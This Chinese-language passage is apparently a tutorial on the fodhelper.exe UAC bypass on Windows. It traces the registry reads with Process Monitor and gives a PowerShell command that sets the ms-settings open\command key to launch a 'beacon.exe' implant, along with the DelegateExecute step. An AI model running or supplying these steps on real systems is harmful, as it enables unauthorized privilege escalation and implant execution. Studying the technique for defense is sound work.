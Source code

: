 使用 [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) 工具筛进程 fodhelper.exe 的操作。

![Fodhelper-2.png](assets/1698895488-cdc7755a2f2384b5e2ea5f33fa3c4ec7.png)

查看发现会读取两条注册表。

```plaintext
HKCU\Software\Classes\ms-settings\Shell\Open\Command

HKCR\ms-settings\Shell\Open\Command\DelegateExecute
```

![Fodhelper-3.png](assets/1698895488-db913063d691980ff35ddf5cf11186fe.png)

fodhelper.exe 会读取注册表 HKCU\\Software\\Classes\\ms-settings\\shell\\open\\command 的值并执行。

PowerShell 新建注册表项 HKCU\\Software\\Classes\\ms-settings\\shell\\open\\command，并赋值 cmd.exe /c start C:\\Users\\123\\Desktop\\beacon.exe。

```powershell
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "cmd.exe /c start C:\Users\123\Desktop\beacon.exe" -Force
```

最后需要在注册表项 HKCU\\Software\\Classes\\ms-settings\\shell\\open\\command 内新建 String 类型属性 DelegateExecute，值怎么填随便，只要属性存在就行，这里采用默认值空。
